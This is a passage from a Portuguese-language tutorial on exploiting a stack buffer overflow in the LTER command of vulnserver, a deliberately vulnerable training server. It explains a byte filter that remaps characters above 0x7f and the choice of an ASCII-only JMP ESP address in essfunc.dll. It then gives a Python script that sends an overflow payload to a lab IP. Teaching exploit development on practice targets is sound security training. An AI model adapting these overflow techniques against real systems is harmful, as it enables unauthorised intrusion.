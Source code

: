 Ao seguirmos o dump do ESP, podemos ver que nossos caracteres seguiram normalmente do 0x01 até 0x7f, a partir daí, o vulnserver começou a substituir nossos caracteres por outros, o 0x80 por 0x01, o 0x81 por 0x02 e assim por diante.

Isso explica por que o 0xd3 do nosso JMP ESP foi substituído por 0x09. O que significa que temos uma quantidade limitadíssima de 127 caracteres para fazer todo nosso exploit.

Precisamos continuar, nosso JMP ESP não funcionou, mas podemos adicionar o comando “ascii” à nossa pesquisa no Immunity, para tentar encontrar um JMP ESP que contenha apensas caracteres ANSI.

![Enumaração do comando.](/std/winbof/winbof-87.png)

Temos dois endereços, que por sinal estão na essfunc.dll que acompanha o vulnserver. No meu caso, vou utilizar o 0x62501203.

Atualizando script.

xpllter.py:

```bash
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * 2005
payload += b"\x03\x12\x50\x62"
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```
